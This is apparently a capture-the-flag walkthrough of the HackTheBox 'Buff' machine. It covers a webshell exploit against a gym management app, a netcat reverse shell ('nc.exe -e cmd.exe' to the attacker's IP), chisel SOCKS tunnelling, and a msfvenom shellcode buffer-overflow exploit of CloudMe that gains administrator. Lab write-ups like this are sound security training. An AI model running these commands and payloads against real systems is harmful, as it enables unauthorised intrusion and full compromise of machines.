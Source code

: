 We find the Readme file which tellls us that we can access to the table.sql file (http://10.10.10.198:8080/cgi-bin/printenv.pl) and we are running an app called "gym management system" which we can find by searchsploit. We will use **[this exploit](https://www.exploit-db.com/exploits/48506)**

```bash
┌──(venv)─(kali㉿kali)-[~/Documents/Boxes/Buff-10.10.10.198]
└─$ python 48506 http://10.10.10.198:8080/

[+] Successfully connected to webshell.
C:\xampp\htdocs\gym\upload> whoami
buff\shaun
```

First lets move nc.exe binary and get a proper shell

```bash
┌──(kali㉿kali)-[~/Documents/Resources]
└─$ sudo impacket-smbserver share -smb2support .                       
[sudo] password for kali: 
Impacket v0.11.0 - Copyright 2023 Fortra

------------

C:\xampp\htdocs\gym\upload> copy \\10.10.14.11\share\nc.exe .
C:\xampp\htdocs\gym\upload> .\nc.exe -e cmd.exe 10.10.14.11 9001

------------

┌──(kali㉿kali)-[~]
└─$ nc -nvlp 9001                             
listening on [any] 9001 ...
connect to [10.10.14.11] from (UNKNOWN) [10.10.10.198] 49920
Microsoft Windows [Version 10.0.17134.1610]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\gym\upload>
```

Now we found a binary file `C:\Users\shaun\Downloads\CloudMe_1112.exe`  which we found executing locally on port 8888

```bash
C:\Users\shaun\Downloads>netstat -an | findstr "LISTENING"
netstat -an | findstr "LISTENING"
  [...SNIP...]
  TCP    127.0.0.1:3306         0.0.0.0:0              LISTENING
  TCP    127.0.0.1:8888         0.0.0.0:0              LISTENING
  [...SNIP...]

C:\Users\shaun\Downloads>tasklist /svc

Image Name PID Services

========================= ======== ============================================
[...SNIP...]
CloudMe.exe 1448 N/A
[...SNIP...]
```

We found **[this exploit](https://www.exploit-db.com/exploits/48389)** for the service CloudMe and we need to execute it through python, which we don't have in the victim machine. Lets connect our attack machine to the service through chisel, we will use a reverse dynamic Socks proxy

```bash
┌──(kali㉿kali)-[~/Documents/Resources/chisel]
└─$ ./chisel server -p 9999 --reverse
2023/11/07 22:06:30 server: Reverse tunnelling enabled
2023/11/07 22:06:30 server: Fingerprint qUprB6Aw2OE7Lrw5jdWSgimfVX8lN+7hkYrAoFtZ9bU=
2023/11/07 22:06:30 server: Listening on http://0.0.0.0:9999
2023/11/07 22:06:54 server: session#1: tun: proxy#R:127.0.0.1:9000=>socks: Listening

----------

C:\Windows\Temp>.\chisel.exe client 10.10.14.11:9999 R:9000:socks
.\chisel.exe client 10.10.14.11:9999 R:9000:socks                                                                   
2023/11/07 21:06:54 client: Connecting to ws://10.10.14.11:9999
2023/11/07 21:06:54 client: Connected (Latency 51.4847ms)
```

Now we can redirect the request to the port 9000 in our attack machine through proxychains4. For that we need to add the following line to /etc/proxychains4.conf

```text
socks5    127.0.0.1    9000
```

Its time to configure the exploit. In the exploit we can see a POC launching the calc in windows. We can generate another payload with msfvenom. In this case, we configure a stage payload (windows/shell/reverse_tcp) so we need to catch the shell with msfconsole

![[Pasted image 20231107225919.png]]

```bash
┌──(kali㉿kali)-[~/Documents/Boxes/Buff-10.10.10.198]
└─$ msfvenom -p windows/shell/reverse_tcp LHOST=10.10.14.11 LPORT=9001 -b '\x00\x0A\x0D' -f python
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 12 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 381 (iteration=0)
x86/shikata_ga_nai chosen with final size 381
Payload size: 381 bytes
Final size of python file: 1887 bytes
buf =  b""
buf += b"\xdb\xc9\xd9\x74\x24\xf4\x5b\xb8\x7c\x44\xb3\x3a"
buf += b"\x29\xc9\xb1\x59\x31\x43\x19\x03\x43\x19\x83\xc3"
[...SNIP...]

------------

┌──(kali㉿kali)-[~/Documents/Boxes/Buff-10.10.10.198]
└─$ proxychains4 python3 48389
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  127.0.0.1:9000  ...  127.0.0.1:8888  ...  OK

------------

Payload options (windows/shell/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique 
   LHOST     10.10.14.11      yes       The listen address 
   LPORT     9001             yes       The listen port

msf6 exploit(multi/handler) > run

C:\Windows\system32>whoami
whoami
buff\administrator
```

And we are root

